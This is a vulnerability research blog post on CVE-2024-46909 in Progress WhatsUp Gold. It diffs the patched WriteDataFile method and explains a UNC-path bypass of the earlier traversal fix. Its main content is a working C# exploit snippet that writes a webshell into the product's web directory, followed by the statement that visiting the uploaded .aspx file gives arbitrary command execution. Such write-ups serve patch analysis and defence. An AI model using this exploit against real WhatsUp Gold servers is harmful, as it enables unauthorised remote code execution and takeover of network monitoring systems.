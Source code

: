 ```yaml
---
layout: post
title: (CVE-2024-46909) Progress Software WhatsUp Gold WriteDataFile Directory Traversal Remote Code Execution Vulnerability 
tag:
- CVE
- RCE
---
```




I haven't done any CVE reverse engineer blogposts before but really wanted to do one, so I decided look at something this Advisory [https://www.zerodayinitiative.com/advisories/ZDI-24-1645/](https://www.zerodayinitiative.com/advisories/ZDI-24-1645/) looked interesting and I already had some idea about it from a past blogpost from the original finder of the same bug 
@SinSinology,  the vulnerable component name is same so it would be just a bypass of the old bug

Below you can find the original blogpost of the old bug, we have detailed blogpost and the poc too :

[https://summoning.team/blog/progress-whatsup-gold-writedatafile-cve-2024-4883-rce/](https://summoning.team/blog/progress-whatsup-gold-writedatafile-cve-2024-4883-rce/)

[https://github.com/sinsinology/CVE-2024-4883](https://github.com/sinsinology/CVE-2024-4883)


The details looks exactly the same I so quicly downloaded the patched version to do a patch diff [https://www.zerodayinitiative.com/advisories/ZDI-24-1645/](https://www.zerodayinitiative.com/advisories/ZDI-24-1645/) . I already had an old version installed so I took a backup of the following two files

```
C:\Program Files (x86)\Ipswitch\WhatsUp\NmAPI.exe
C:\Program Files (x86)\Ipswitch\WhatsUp\WUGDataAccess.dll
```

After downloading the latest version and installing it , I exported the source from dotPeek and did a diff using DiffMerge

The declaration of the `WriteDataFile` method is in the NmAPI.exe!NmAPI.CoreServices.cs

Here's the Diff version of the `WriteDataFile` method 

```diff
     public void WriteDataFile(EntityDataFileTransfer dataFile)
     {
-      if (dataFile.FileInfo.DirectoryName.Contains("..") || dataFile.FileInfo.DirectoryName.Contains(":") || dataFile.FileInfo.Name.Contains("..") || dataFile.FileInfo.Name.Contains(":"))

+      if (dataFile.FileInfo.DirectoryName.Contains("..") || dataFile.FileInfo.DirectoryName.Contains(":") || dataFile.FileInfo.Name.Contains("..") || dataFile.FileInfo.Name.Contains(":") || dataFile.FileInfo.Name.Contains<char>('\\') || dataFile.FileInfo.Name.Contains<char>('/') || dataFile.FileInfo.DirectoryName.StartsWith("\\") || dataFile.FileInfo.DirectoryName.StartsWith("/"))

         throw new ArgumentException("Invalid file or directory name");
       string str = Path.Combine(Directory.GetCurrentDirectory(), "Data" + dataFile.FileInfo.DirectoryName);
       string path = Path.Combine(str, dataFile.FileInfo.Name);

+      if (!Path.GetFullPath(path).StartsWith(Path.GetFullPath(str), StringComparison.OrdinalIgnoreCase))
+        throw new ArgumentException("Invalid directory");
       
       if (File.Exists(path))
       {
         File.SetAttributes(path, FileAttributes.Archive);
```

Initially the if checks for the `dataFile.FileInfo.DirectoryName` and `dataFile.FileInfo.Name` were added to resolve the old issue CVE-2024-4883 , we can see now they added more checks there

```cs
dataFile.FileInfo.Name.Contains<char>('\\')
dataFile.FileInfo.Name.Contains<char>('/')

dataFile.FileInfo.DirectoryName.StartsWith("\\")
dataFile.FileInfo.DirectoryName.StartsWith("/")
```

Basically they are just checking if the Name and DirectoryName property Contains or StartsWith `//` ,`\` characters or not.

For Windows `\\` is treated as Network Path (UNC Path) , for eg \\ServerName\SharedFolder . So I thought the bypass is related to that only , I went with this path of thinking , if C directory where Whatsupgold is installed is being shared then it might be accessible under `\\PC-Name\`

![image](https://gist.github.com/user-attachments/assets/f27b1a32-b63b-4143-b086-71fb77e2f3bf)

Just an example UNC path which could get pass the if check: `\\Desktop-5i7nkh0\c\Program Files (x86)\Ipswitch\WhatsUp\html\NmConsole`

--------------------------------


In the exploit which @SinSinology originaly wrote you can see how the path is specified. All we need to do replace the value for the `webshell_path` variable with the UNC one

```cs
            string webshell_path = @"C:\Program Files (x86)\Ipswitch\WhatsUp\html\NmConsole\" + webshell_name;

            EntityDataFileTransfer dataFile = new EntityDataFileTransfer
            {
                FileInfo = new EntityFileInfo
                {
                    DirectoryName = "test",
                    Name = webshell_path,
                    LastWriteTime = DateTime.Now
                },
                FileContents = System.IO.File.ReadAllBytes(webshell)
            };
            Console.WriteLine("(*) Using write what where primitive, to plant " + webshell_path);
            core_client.WriteDataFile(dataFile);
```

```cs
string webshell_path = @"\\Desktop-5i7nkh0\c\Program Files (x86)\Ipswitch\WhatsUp\html\NmConsole\" + webshell_name;
```

Then just Build the Solution and execute the binary. It will write the content pointed out by the  `webshell` file and it will be written in the `C:\Program Files (x86)\Ipswitch\WhatsUp\html\NmConsole\` on the targetted system.

Thus by visiting the uploaded .aspx file location we can execute arbitrary commands.

A small gif for the exploit in action:

